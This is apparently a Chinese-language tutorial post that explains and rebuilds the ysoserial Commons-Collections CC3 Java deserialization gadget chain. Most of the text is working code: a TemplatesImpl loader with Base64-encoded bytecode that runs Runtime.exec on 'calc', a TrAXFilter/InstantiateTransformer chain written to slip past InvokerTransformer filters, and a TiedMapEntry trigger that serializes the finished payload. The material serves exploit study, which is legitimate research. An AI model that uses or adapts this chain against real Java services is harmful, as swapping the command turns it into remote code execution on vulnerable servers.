

让我们来看看ysoserial中CC3反序列化链的代码
```java
	public Object getObject(final String command) throws Exception {
		Object templatesImpl = Gadgets.createTemplatesImpl(command);

		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(TrAXFilter.class),
				new InstantiateTransformer(
						new Class[] { Templates.class },
						new Object[] { templatesImpl } )};

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return handler;
	}
```
这里主要的思想便是通过利用com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImp类的newTransformer方法来加载字节码从而实现任意代码执行<br />在利用《利用TemplatesImpl加载字节码》一文中我已经介绍了利用的代码直接贴出
```java
public class DefineClassImpl {
    public static void main(String[] args) throws Exception{
        byte[] code =Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAcDAAdAB4BAARjYWxjDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAGQAAAAMAAAABsQAAAAEACgAAAAYAAQAAAAkACwAAAAQAAQAMAAEABwANAAIACQAAABkAAAAEAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAA4ADwACAAkAAAAuAAIAAQAAAA4qtwABuAACEgO2AARXsQAAAAEACgAAAA4AAwAAAA8ABAAQAA0AEQALAAAABAABABAAAQARAAAAAgAS");
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_class", null);
        setFieldValue(obj, "_bytecodes", new byte[][]{code});
        setFieldValue(obj, "_name", "yyds");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        obj.newTransformer();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

}
```
然后通过Transformer类来执行TransformerFactoryImp.newTransformer<br />正常代码我们会写成如下这样<br />但是ysoserial中并没有使用InvokerTransformer类，原因是一些java反序列化过滤器过滤了InvokerTransformer
```java
final Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(obj),
        new InvokerTransformer("newTransformer", null, null)
};
```
所以我们尝试使用com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter执行<br />TrAXFilter构造方法调用了TransformerFactoryImp.newTransformer
```java
public TrAXFilter(Templates templates)  throws
    TransformerConfigurationException
{
    _templates = templates;
    _transformer = (TransformerImpl) templates.newTransformer();
    _transformerHandler = new TransformerHandlerImpl(_transformer);
    _overrideDefaultParser = _transformer.overrideDefaultParser();
}
```
现在我们就需要如何执行TrAXFilter的构造方法，这时候另一个Transfomer的基础类派上用场<br />org.apache.commons.collections.functors.InstantiateTransformer类<br />它会调用指定类的构造方法<br />所以实现代码如下
```java
final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(
                new Class[] { Templates.class },
                new Object[] { obj } )};
Transformer transformerChain = new ChainedTransformer(transformers);
```
之后便和CC1相似，通过LazyMap将Transformer类修饰进Map类中<br />再通过代理劫持，触发_InvocationHandler的invoke方法来触发Transformer_<br />_但是，这种触发方式只使用于8u71之前，所以我们可以对触发代码进行修改_<br />_修改为CC6中_TiedMapEntry来触发Transformer<br />则，总实现代码如下
```java
public static void main(String[] args) throws Exception{
    byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAcDAAdAB4BAAhjYWxjLmV4ZQwAHwAgAQASSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAJAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAADAALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAAPAAQAEAANABEACwAAAAQAAQAQAAEAEQAAAAIAEg==");
    TemplatesImpl obj = new TemplatesImpl();
    setFieldValue(obj, "_class", null);
    setFieldValue(obj, "_bytecodes", new byte[][]{code});
    setFieldValue(obj, "_name", "yyds");
    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
//        obj.newTransformer();

    // 执行类
//        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(TrAXFilter.class),
            new InstantiateTransformer(
                    new Class[] { Templates.class },
                    new Object[] { obj } )};
    Transformer transformerChain = new ChainedTransformer(transformers);
    Map innerMap = new HashMap();
    innerMap.put("value", "Ki1ro");
    Map outerMap = LazyMap.decorate(innerMap, transformerChain);


    // 触发类
    Map objj = new HashMap();
    TiedMapEntry tm = new TiedMapEntry(outerMap, "Ki1ro");
    objj.put(tm, "Ki1ro");
//        outerMap.remove("Ki1ro");
    // 序列化
    ByteArrayOutputStream bo = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(bo);
    oos.writeObject(objj);
    oos.close();
}
```
实现效果<br />
